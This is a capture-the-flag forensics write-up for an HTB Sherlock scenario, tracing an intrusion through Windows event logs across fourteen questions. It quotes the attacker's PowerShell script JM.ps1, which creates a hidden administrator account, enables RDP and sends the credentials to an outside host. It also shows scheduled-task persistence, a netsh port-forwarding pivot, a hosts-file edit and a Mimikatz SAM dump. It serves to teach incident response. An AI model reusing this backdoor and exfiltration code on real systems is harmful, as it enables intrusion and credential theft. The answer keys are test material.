


# Holmes 2025 3: The Enduring Echo
#### Categories: DFIR <br> Difficulty: Easy

## Sherlock Scenario
LeStrade passes a disk image to Holmes. It's one of the identified breach points, now showing abnormal CPU activity and anomalies in process logs.

## Attachments
- `EnduringEcho.zip`

## Solve
After downloading and extracting the attachment, I obtained some artifact copy logs and a folder named `C`.

<br>

### Task 1
#### Question:
What was the first (non cd) command executed by the attacker on the host?

#### Answer:
In the `Security.evtx` log, I filtered for Event ID 4688 (`A new process has been created`) and the keyword `cd` to determine the attacker's activity window.
 

The results indicate that the attacker gained access via SSH as user `Werni` in Record Numbers 3821 and 3822. Filtering for events associated with this user under Event ID 4688 revealed the first non-`cd` command executed:
 

Answer: **systeminfo**

<br>

### Task 2
#### Question:
Which parent process (full path) spawned the attacker’s commands?

#### Answer:
From the previous log entry, the direct parent process of `systeminfo.exe` is `cmd.exe` with PID `0x1300`. The creation of this parent process (`0x1300`) is recorded in Record Number `4287`:
``` json
{"EventData":{"Data":[{"@Name":"SubjectUserSid","#text":"S-1-5-20"},{"@Name":"SubjectUserName","#text":"HEISEN-9-WS-6$"},{"@Name":"SubjectDomainName","#text":"WORKGROUP"},{"@Name":"SubjectLogonId","#text":"0x3E4"},{"@Name":"NewProcessId","#text":"0x1300"},{"@Name":"NewProcessName","#text":"C:\\Windows\\System32\\cmd.exe"},{"@Name":"TokenElevationType","#text":"%%1936"},{"@Name":"ProcessId","#text":"0xF34"},{"@Name":"CommandLine","#text":"cmd.exe /Q /c systeminfo 1&gt; \\\\127.0.0.1\\ADMIN$\\__1756075857.955773 2&gt;&amp;1"},{"@Name":"TargetUserSid","#text":"S-1-0-0"},{"@Name":"TargetUserName","#text":"Werni"},{"@Name":"TargetDomainName","#text":"HEISEN-9-WS-6"},{"@Name":"TargetLogonId","#text":"0x4373B0"},{"@Name":"ParentProcessName","#text":"C:\\Windows\\System32\\wbem\\WmiPrvSE.exe"},{"@Name":"MandatoryLabel","#text":"S-1-16-12288"}]}}
```

Answer: **C:\Windows\System32\wbem\WmiPrvSE.exe**

<br>

### Task 3
#### Question:
Which remote-execution tool was most likely used for the attack?

#### Answer:
The specific command-line structure and output redirection syntax to `ADMIN$\__<timestamp>` observed in Task 2 is characteristic of `wmiexec.py` from Impacket.

Answer: **wmiexec.py**

<br>

### Task 4
#### Question:
What was the attacker’s IP address?

#### Answer:
Continuing to trace the commands executed under the context of user `Werni`, Record Number 4416 contains the following command line:
``` bash
C:\Windows\System32\cmd.exe cmd  /C "echo 10.129.242.110 NapoleonsBlackPearl.htb &gt;&gt; C:\Windows\System32\drivers\etc\hosts" 
```

This command appends a custom DNS resolution entry to the local `hosts` file, mapping the domain `NapoleonsBlackPearl.htb` directly to the attacker's IP address `10.129.242.110`.

Answer: **10.129.242.110**

<br>

### Task 5
#### Question:
The attacker established multiple persistence mechanisms. What is set as the name of the earliest one created?

#### Answer:
Continuing the inspection of commands executed by user `Werni`, Record Number 4454 shows the creation of a scheduled task:
``` bash
C:\Windows\System32\schtasks.exe schtasks  /create /tn "SysHelper Update" /tr "powershell -ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Users\Werni\Appdata\Local\JM.ps1" /sc minute /mo 2 /ru SYSTEM /f  
```

This command registers a scheduled task named `SysHelper Update` to execute `JM.ps1` every 2 minutes with `NT AUTHORITY\SYSTEM` privileges.

Answer: **SysHelper Update**

<br>

### Task 6
#### Question:
Identify the script executed by the persistence mechanism.

#### Answer:

Answer: **C:\Users\Werni\AppData\Local\JM.ps1**

<br>

### Task 7
#### Question:
What local account did the attacker create?

#### Answer:
Filtering `Security.evtx` for Event ID 4720 (`A user account was created`) reveals that the local account `svc_netupd` was created on the system.

Answer: **svc_netupd**

<br>

### Task 8
#### Question:
What domain name did the attacker use for credential exfiltration?

#### Answer:
Identified from the command analyzed in Task 4, where the attacker modified the `hosts` file and subsequently exfiltrated credentials via HTTP requests to this domain.

Answer: **NapoleonsBlackPearl.htb**

<br>

### Task 9
#### Question:
What password did the attacker's script generate for the newly created user?

#### Answer:
Analyzing `JM.ps1`:
``` ps1
# List of potential usernames
$usernames = @("svc_netupd", "svc_dns", "sys_helper", "WinTelemetry", "UpdaterSvc")

# Check for existing user
$existing = $usernames | Where-Object {
    Get-LocalUser -Name $_ -ErrorAction SilentlyContinue
}

# If none exist, create a new one
if (-not $existing) {
    $newUser = Get-Random -InputObject $usernames
    $timestamp = (Get-Date).ToString("yyyyMMddHHmmss")
    $password = "Watson_$timestamp"

    $securePass = ConvertTo-SecureString $password -AsPlainText -Force

    New-LocalUser -Name $newUser -Password $securePass -FullName "Windows Update Helper" -Description "System-managed service account"
    Add-LocalGroupMember -Group "Administrators" -Member $newUser
    Add-LocalGroupMember -Group "Remote Desktop Users" -Member $newUser

    # Enable RDP
    Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
    Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
    Invoke-WebRequest -Uri "[http://NapoleonsBlackPearl.htb/Exchange?data=$](http://NapoleonsBlackPearl.htb/Exchange?data=$)([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("$newUser|$password")))" -UseBasicParsing -ErrorAction SilentlyContinue | Out-Null
}
```
The script randomly selects a username from `$usernames` to create a backdoor account and enables RDP access. The password is generated dynamically using the format `"Watson_" + timestamp` (`yyyyMMddHHmmss`).

Since the incident occurred on `2025-08-24`, extracting the exact second from logs directly can be tricky. I dumped the NTLM hash of `svc_netupd` from the SAM hive using Mimikatz:
``` bash
lsadump::sam /system:[SYSTEM_path] /SAM:[SAM_path]
```
Then, I used a Python script (`crack.py`) to brute-force the 86,400 possible timestamp combinations for that day against the extracted NTLM hash.

Answer: **Watson_20250824160509**

<br>

### Task 10
#### Question:
What was the IP address of the internal system the attacker pivoted to?

#### Answer:
Tracing further commands executed by user `Werni`, Record Number 4520 shows the execution of:
``` bash
C:\Windows\System32\netsh.exe netsh  interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=9999 connectaddress=192.168.1.101 connectport=22
```

This command sets up a port forwarding rule using `portproxy`, redirecting incoming traffic on port `9999` to internal IP `192.168.1.101` on port `22`.

Answer: **192.168.1.101**

<br>

### Task 11
#### Question:
Which TCP port on the victim was forwarded to enable the pivot?

#### Answer:

Answer: **9999**

<br>

### Task 12
#### Question:
What is the full registry path that stores persistent IPv4→IPv4 TCP listener-to-target mappings?

#### Answer:
Windows stores persistent `portproxy` IPv4-to-IPv4 configurations under the following registry key:

Answer: **HKLM\SYSTEM\CurrentControlSet\Services\PortProxy\v4tov4\tcp**

<br>

### Task 13
#### Question:
What is the MITRE ATT&CK ID associated with the previous technique used by the attacker to pivot to the internal system?

#### Answer:

Answer: **T1090.001**

<br>

### Task 14
#### Question:
Before the attack, the administrator configured Windows to capture command line details in the event logs. What command did they run to achieve this?

#### Answer:
The PowerShell history file located at `C\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` contains previous commands executed by the administrator during system setup. The command executed to enable command-line auditing in Event ID 4688 is:

Answer: **reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Audit" /v ProcessCreationIncludeCmdLine_Enabled /t REG_DWORD /d 1 /f**